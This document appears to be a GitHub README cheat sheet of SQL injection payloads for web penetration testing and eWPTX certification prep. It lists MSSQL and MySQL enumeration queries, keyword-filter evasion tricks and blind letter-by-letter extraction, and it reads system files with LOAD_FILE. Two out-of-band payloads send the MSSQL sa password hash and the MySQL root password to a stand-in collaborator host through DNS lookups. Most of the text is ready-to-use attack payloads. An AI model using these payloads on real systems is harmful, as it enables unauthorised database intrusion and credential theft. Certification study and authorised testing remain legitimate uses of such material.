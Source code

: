 # eWPTX
List of useful commands for web penetration testing and eWPTX certification

## XSS
coming soon

## SQLi

### MSSQL

**List version name**

```
SELECT @@VERSION;-- -
```

**List database name**

```
SELECT name FROM master..sysdatabases;-- -
```
```
SELECT name FROM sysdatabases;-- -
```

**List the table of a specific database**

```
S = System Table
U = User Table
TT = Table Type
X = Extended Store Procedure
V = Views
```
```
SELECT name FROM mydatabasename..sysobjects WHERE xtype='U';-- -
```
```
SELECT table_name FROM mydatabasename.INFORMATION_SCHEMA.TABLES WHERE table_type='BASE TABLE';-- -
```

**List all tables and views of the current database**

```
SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='BASE TABLE';-- -
```

**List the columns of a specific table**

```
SELECT column_name FROM mydatabasename.INFORMATION_SCHEMA.columns WHERE table_name = '';-- -
```

**List the columns of tables, views and clusters accessible to the current user**

```
SELECT column_name FROM SYS.ALL_TAB_COLUMNS;-- -
```
```
SELECT column_name FROM ALL_TAB_COLUMNS;-- -
```

**List the current user**

```
SELECT loginame FROM SYSPROCESS WHERE spied = @@SPID;-- -
```

**List all users**

```
SELECT name FROM SYSLOGINS;-- -
```

**List users' privilegs**
The possibile roles are
```
sysadmin
serveradmin
dbcreator
setupadmin
bulkadmin
securityadmin
diskadmin
public
processadmin
```
```
SELECT IS_SRVROLEMEMBER('processadmin', 'myusername');-- -
```
If no username is supplied as an argument, it is the currentuser

**Provoke DNS request**

```
Two alternatives are XP_DIRTREE and XP_SUBDIRS
```
```
EXEC MASTER..XP_FILEEXIST 'C:\Windows\System32\drivers\etc\hosts';-- -
```
```
DECLARE @host varchar(1024);

SELECT @host=(SELECT TOP 1 MASTER.DBO.FN_VARBINTOHEXSTR(password_hash)
FROM SYS.SQL_LOGINS WHERE name='sa') + '.mycollaboratorserver';

EXEC('MASTER..XP_FILEEXIST "\\'+@host+'"');
```

### Oracle
cooming soon

### MySQL

**List database name**

```
SELECT DATABASE();-- -
```

**List the table of a specific database**

```
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = '';-- -
```

**List the table of a specific database with limit and offset**

```
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = '' LIMIT 1 OFFSET N;-- -
```

**List the columns of a specific table and database**

```
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = '' AND table_name = '';-- -
```

**List the nth column of a specific table**

```
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = '' AND table_name = '' AND ORDINAL_POSITION = N;-- -
```

**Concat query elements when spaces are not allowed**

```
SELECT/**/DATABASE();-- -
```

**Concat query elements when spaces AND comments are not allowed***

```
(SELECT(group_concat(table_name))FROM(INFORMATION_SCHEMA.tables)WHERE(table_schema=database()));-- -
```

**Basic camel case filter evasion**

```
SeLEcT gROup_cOnCaT(TabLE_NamE) FroM InfOrmaTioN_SchEma.TabLeS WhERe tABle_scHEmA =lower('');-- -
```

**Basic evasion if WHERE statement is not allowed**

```
SELECT * FROM GROUP BY HAVING ID=1;-- -
```

**Filter evasion where SQL keywords are not allowed**

```
sZEROFILLeZEROFILLlZEROFILLeZEROFILLcZEROFILLt tZEROFILLaZEROFILLbZEROFILLlZEROFILLe_nZEROFILLaZEROFILLmZEROFILLe fZEROFILLrZEROFILLoZEROFILLm iZEROFILLnZEROFILLfZEROFILLoZEROFILLrZEROFILLmZEROFILLaZEROFILLtZEROFILLiZEROFILLoZEROFILLn_sZEROFILLcZEROFILLhZEROFILLeZEROFILLmZEROFILLa.tZEROFILLaZEROFILLbZEROFILLlZEROFILLeZEROFILLs wZEROFILLhZEROFILLeZEROFILLrZEROFILLe tZEROFILLaZEROFILLbZEROFILLlZEROFILLe_sZEROFILLcZEROFILLhZEROFILLeZEROFILLmZEROFILLa = '';-- -
```

**Letter by letter database enumeration**

```
a' RLIKE (SELECT (
	CASE WHEN(
		ORD( /* string to ASCII conversion /*
			SUBSTRING( /* string, starting index, ending index */
			(
				SELECT IFNULL(CAST(table_name AS NCHAR),0x20)
				FROM INFORMATION_SCHEMA.TABLES
				WHERE table_schema=0x696e666f726d6174696f6e5f736368656d61 LIMIT 2,1
			)
		,11,1)
	)>64 /* check if the ASCII value of a specified letter is bigger than a specified value */
)
THEN 0x61 ELSE 0x28 END))
```

**Read system files (Windows only)**

```
SELECT LOAD_FILE("C:\\Windows\\System32\\drivers\\etc\\hosts");-- -
```

**Provoke DNS request (Windows only)**

```
SELECT LOAD_FILE(CONCAT('\\\\', 'SELECT password FROM mysql.users WHERE user=\'root\'', '.mycollaboratorserver'));-- -
```

**Other tips**
* Encode query in base64
* Double-encode query in base64
* Use HEX conversion 

## XXE
coming soon
